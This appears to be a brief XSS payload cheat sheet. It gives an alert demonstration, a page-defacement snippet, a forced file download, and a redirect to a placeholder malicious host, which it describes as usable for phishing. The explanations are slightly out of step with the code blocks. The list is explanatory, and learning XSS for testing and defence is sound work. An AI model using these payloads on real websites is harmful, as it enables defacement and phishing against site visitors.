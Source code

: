 Basic XSS Alert:
```
alert('XSS')
```
This payload triggers a JavaScript alert dialog with the message "XSS". It is commonly used to demonstrate the existence of an XSS vulnerability.


DOM Manipulation:
```
document.body.innerHTML = "<h1>Hacked</h1>";
```
```
var a = document.createElement('a');
a.href = 'data:text/plain;base64,VGhpcyBpcyBhIGZpbGUgZG93bmxvYWQgdGVzdCBmb3IgWFNTIHZ1bG5lcmFiaWxpdHku';
a.download = 'xss_test.txt';
document.body.appendChild(a);
a.click();
document.body.removeChild(a);
```
This payload modifies the entire content of the web page, replacing it with a custom message. This can be used for defacement attacks.


Redirect to Malicious Site:
```
window.location.href = 'http://malicious-site.com';
```
This payload redirects the user to a malicious website. This can be used for phishing attacks.


